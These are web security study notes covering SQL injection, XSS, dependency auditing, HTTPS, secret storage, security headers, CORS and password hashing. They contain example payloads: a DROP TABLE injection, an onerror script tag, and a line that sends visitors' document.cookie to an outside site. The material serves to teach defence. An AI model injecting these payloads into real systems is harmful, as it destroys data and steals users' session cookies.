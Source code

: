 ## Security

### SQL injections

Let's have a look at a SQL injection example.

```sql
INSERT INTO users (email) VALUES (; DROP TABLE users; --);
```

The original intent of this SQL command was to insert an email into the `users` table, however, a malicious code was inserted to drop the whole table. The `--` means to comment out anything after that.

Apart from injecting into SQL, you can also inject into a web page by entering `<img src='/' onerror="alert(1)" />` into an input filed where the content is applied directly to the `innerHTML` property.

Here is a few things you should consider to fix the injection loopholes.

- sanitize inputs (white list)
- parametrize queries (ORM, Object-relational mapping)

### 3rd party libraries

Audit the 3rd party libraries in your project using helper tool such as [snyk](https://snyk.io/).

### Logging

Always try to implement logging so you have more info about what happen in your project. [morgan](https://github.com/expressjs/morgan) and [winston](https://github.com/winstonjs/winston) are something you can use as a starter. 

### Use HTTPS

HTTPS encrypts information transmitted between client and server so use service like [letsencrypt](https://letsencrypt.org/) to upgrade your site for security's sake.

### Cross-site scripting (XSS)

An XSS attack exploits a weakness in a page that includes a variable submitted in a request to show up in raw form in the response. The page is only reflecting back what was submitted in that request, but the content of that request might hold characters that break out of ordinary text content and introduce HTML or javascript content that the developer did not intend.

For example, if you have a form that allows user to input a comment, and below the form you display it. Without proper handling of XSS, you can write `window.location = 'myWebsite.com?cookie=' + document.cookie` into the input field and submit it as a comment. Since it is now added to the page as a comment, anyone who visits the site will have their cookies stolen.
  
Therefore, we should always remember to `sanitize` our data before using it.

### Cross Site Request Forgery (CSRF)

### Man in the middle

### Store your API keys in .env

Use library such as [dotenv](https://github.com/motdotla/dotenv) to help manage environmental variables.

### Use security HTTP header

Library such as [helmet](https://helmetjs.github.io/) helps you secure your headers.

### Principle of least privilege

For example, we can use [cors](https://github.com/expressjs/cors) to set a white list specifiying what domains can request resources from your server.

### Data management

- Encrypt password using tool such as `bcrypt`.

- Encrypt a few columns containing sensitive information in your database (name, email, address) using tool such as `pgcrypto` (for PostgreSQL).
